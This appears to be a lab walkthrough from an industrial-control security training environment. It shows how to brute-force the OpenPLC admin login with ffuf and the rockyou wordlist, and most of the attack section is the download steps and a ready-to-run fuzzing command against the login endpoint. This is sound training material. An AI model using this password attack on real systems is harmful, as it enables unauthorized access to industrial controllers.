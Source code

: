 # Password attack

In this example we try to get the password of the openplc login using the password fuzzer [ffuf](https://github.com/ffuf/ffuf).  

## Check response
http://cybics.lan:8080/login  
After entering wrong credentials, this page is displayed:  
![bad credentials](doc/wrong_login.png)

When the browsers built in developer console is open during the request, we can see the what is sent and received when we try to login. E.g. in chrome with F12  
![login request](doc/login_request.png)

And the sent payload  
![login payload](doc/login_payload.png)

## download
```bash
mkdir ~/ffuf
cd ~/ffuf
wget https://github.com/ffuf/ffuf/releases/download/v2.1.0/ffuf_2.1.0_linux_amd64.tar.gz
tar xf ffuf_2.1.0_linux_amd64.tar.gz
```

## get a wordlist
```bash
wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

## ffuf
Start fuff with:
- `-w ./rockyou.txt` the downloaded wordlist
- `-X POST -H "Content-Type: application/x-www-form-urlencoded"` information from the login request
- `-d "username=admin&password=FUZZ"` information form the login request payload (FUZZ is replaced by ffuf)
- `-u http://$DEVICE_IP:8080/login` the request
- `-fs 4561` the length of the response on wrong login
```bash
./ffuf -v -w ./rockyou.txt -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -raw -u http://$DEVICE_IP:8080/login -fs 4561
```

For more info start it without parameters
```bash
./ffuf
```
